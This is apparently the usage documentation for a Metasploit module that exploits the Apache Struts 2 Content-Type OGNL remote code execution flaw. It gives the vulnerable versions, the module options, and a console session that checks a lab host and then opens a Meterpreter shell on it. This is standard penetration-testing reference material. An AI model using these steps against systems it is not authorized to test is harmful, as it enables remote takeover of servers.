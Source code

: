 ## Vulnerable Application

`struts2_content_type_ognl` is a module that exploits Apache Struts 2's Jakarta Multipart
parser, which makes it possible to perform arbitrary code execution with a malicious HTTP
`Content-Type` value.

Apache Struts version 2.3.5 - 2.3.31, and 2.5 - 2.5.10 are vulnerable.

You can download these versions here with any version of Apache Tomcat:

http://archive.apache.org/dist/struts/

You will also need to install a Struts 2 showcase application, which can be found here:

https://mvnrepository.com/artifact/org.apache.struts/struts2-showcase

## Options

### TARGETURI

The path to a struts application action

### VHOST

The HTTP server virtual host. You will probably need to configure this as well, even though it is
set as optional.

## Scenarios

**The Check Command**

The `struts2_content_type_ognl` module comes with a check command that can effectively check
if the remote host is vulnerable or not. To use this, configure the msfconsole similar to the
following:

```
set VERBOSE true
set RHOST [IP]
set TARGETURI [path to the Struts app with an action]
```

When the module is in verbose mode, the `check` command will try to tell you the OS information,
and whether or not the machine is vulnerable. Like this:

```
msf exploit(struts2_content_type_ognl) > check

[+] Victim operating system: Linux
[+] 10.1.11.11:8080 The target is vulnerable.
```

**Exploiting the Host**

After identifying the vulnerability on the target machine, you can try to exploit it.

The exploit supports mainly two platforms: Windows and Linux. To see a list of available payloads,
try to do `show payloads`, and pick one. The following example demonstrates us exploiting a
vulnerable Ubuntu host:

```
msf exploit(struts2_content_type_ognl) > show options

Module options (exploit/multi/http/struts2_content_type_ognl):

   Name       Current Setting     Required  Description
   ----       ---------------     --------  -----------
   Proxies                        no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOST      10.1.11.11          yes       The target address
   RPORT      8080                yes       The target port (TCP)
   SSL        false               no        Negotiate SSL/TLS for outgoing connections
   TARGETURI  /struts2-showcase/  yes       The path to a struts application action
   VHOST                          no        HTTP server virtual host


Payload options (linux/x86/meterpreter/bind_tcp):

   Name          Current Setting  Required  Description
   ----          ---------------  --------  -----------
   DebugOptions  0                no        Debugging options for POSIX meterpreter
   LPORT         4444             yes       The listen port
   RHOST         10.1.11.11       no        The target address


Exploit target:

   Id  Name
   --  ----
   0   Universal


msf exploit(struts2_content_type_ognl) > run

[*] Started bind handler
[*] Transmitting intermediate stager for over-sized stage...(105 bytes)
{"Server"=>"Apache-Coyote/1.1",
 "Set-Cookie"=>"JSESSIONID=548FF051466E6C1F3AAE814E385057DE; Path=/; HttpOnly",
 "Content-Type"=>"text/html;charset=UTF-8",
 "Content-Length"=>"6335",
 "Date"=>"Tue, 14 Mar 2017 21:04:06 GMT"}
[*] Sending stage (1495599 bytes) to 10.1.11.11
[*] Meterpreter session 5 opened (192.168.1.11:50671 -> 10.1.11.11:4444) at 2017-03-14 16:04:36 -0500

meterpreter >
```

